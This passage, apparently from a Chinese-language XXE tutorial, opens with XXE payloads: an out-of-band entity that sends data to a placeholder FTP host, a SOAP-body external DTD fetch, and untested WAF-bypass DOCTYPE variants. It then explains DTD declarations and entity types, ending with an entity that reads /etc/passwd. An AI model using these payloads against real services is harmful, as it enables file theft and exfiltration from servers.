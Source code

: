 ```xml
<!ENTITY % c "<!ENTITY rrr SYSTEM 'ftp://x.x.x.x:2121/%d;'>">

---------------------------
Inside SOAP body
---------------------------
<soap:Body><foo><![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://x.x.x.x:22/"> %dtd;]><xxx/>]]></foo></soap:Body>


---------------------------
Untested - WAF Bypass
---------------------------
<!DOCTYPE :. SYTEM "http://"
<!DOCTYPE :_-_: SYTEM "http://"
<!DOCTYPE {0xdfbf} SYSTEM "http://"
```



#### DTD文档类型定

1） **DTD内部、外部声明** 

```
内部DTD：
假如 DTD 被包含在您的 XML 源文件中，它应当通过下面的语法包装在一个 DOCTYPE 声明中：
<!DOCTYPE root-element [element-declarations]>

外部DTD：
假如 DTD 位于 XML 源文件的外部，那么它应通过下面的语法被封装在一个 DOCTYPE 定义中：
<!DOCTYPE root-element SYSTEM “filename”>
解析时会调用外部DTD文件filename
```

2）  **DTD参数实体、非参数实体** 

除了外部和内部的声明之外，DTD的实体还有参数和非参数之分。

其中参数实体只能在DTD内部(XML的第二部分)以`%实体名`的方式引用，而非参数实体则可在XML文档元素，也就是XML的第三个部分以`&实体名`的方式引用

举例：

```xml
这是一个内部实体+非参数实体，参数在XML文档文档元素部分引用，不能使用协议
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE a [
    <!ENTITY name "nMask">
]>
<foo>
        <value>&name;</value> 
</foo>
```

```xml
这是一个外部实体+参数实体，参数在XML文档DTD内部引用，可以使用外部协议
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE a [
    <!ENTITY % name SYSTEM "file:///etc/passwd">
    %name;
]>
```
